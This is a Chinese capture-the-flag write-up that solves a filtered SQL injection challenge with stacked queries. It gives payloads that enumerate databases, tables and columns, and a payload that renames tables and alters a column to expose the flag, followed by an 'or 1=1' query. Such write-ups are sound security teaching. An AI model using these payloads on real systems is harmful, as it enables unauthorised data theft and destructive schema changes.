


先添加一个单引号，报错，错误信息如下：

error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
接着测试–+注释，发现被过滤，然后使用#注释，可行
用order by语句判断出有两个字段，接着使用union select 爆字段，发现这个时候出现了如下提示：

return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
发现上面的关键字都被过滤不能使用了，没法进行注入，这个时候尝试一下堆叠注入

现在回到这道题，利用堆叠注入，查询所有数据库：

1';show databases;#

查询所有表:

1';show tables;#

查询words表中所有列:

1';show columns from words;#

查询1919810931114514表中所有列

1';show columns from `1919810931114514`;#      (字符串为表名操作时要加反引号)

根据两个表的情况结合实际查询出结果的情况判断出words是默认查询的表，因为查询出的结果是一个数字加一个字符串，words表结构是id和data，传入的inject参数也就是赋值给了id

这道题没有禁用rename和alert，所以我们可以采用修改表结构的方法来得到flag
将words表名改为words1，再将数字名表改为words，这样数字名表就是默认查询的表了，但是它少了一个id列，可以将flag字段改为id，或者添加id字段

1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);#
这段代码的意思是将words表名改为words1，1919810931114514表名改为words，将现在的words表中的flag列名改为id
然后用1' or 1=1 #得到flag

